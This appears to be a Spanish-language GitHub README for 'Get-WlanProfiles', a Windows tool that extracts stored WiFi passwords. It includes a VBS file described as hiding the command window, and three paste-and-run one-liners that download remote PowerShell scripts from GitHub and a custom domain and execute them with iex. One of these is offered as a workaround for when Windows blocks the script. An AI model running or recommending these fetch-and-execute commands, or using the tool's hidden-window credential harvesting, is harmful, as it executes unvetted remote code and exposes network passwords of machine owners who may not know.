 # Get-WlanProfiles

### Extraer/Obtener contraseñas de WIFI almacenadas en Windows.
Archivos:
<br>Extras/extra1.ps1
<br>Get-WlanProfiles.bat
<br>Get-WlanProfiles.psm1
<br>On-Get-WlanProfiles.ps1
<br>config.vbs - oculta ventana CMD

# Como Ejecutarlo
## Local
-Descague los archivos
<br>-Ejecute el archivo Get-WlanProfiles.bat o en su defecto confi.vbs

## Sin descargar - WEB
### PowerShell
-Abra Powershell<br>
-Pegue y ejecute este comando:
```
iwr -useb https://raw.githubusercontent.com/mz39729/Get-WlanProfiles/main/On-Get-WlanProfiles.ps1 | iex
```
### CMD
-Abra CMD<br>
-Pegue y ejecute este comando:
```
powershell iex ((New-Object System.Net.WebClient).DownloadString('http://on-get-wlanprofiles.migzam.com'))
```
# Extras
En la carpeta Extras se encuentras alternativas al codigo principal ya que windows en ocaciones bloquea el script.<br>
-Abra PowerShell<br>
-Pegue y ejecute este comando:<br>
```
iex ((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/mz39729/Get-WlanProfiles/main/Extras/extra1.ps1'))
```

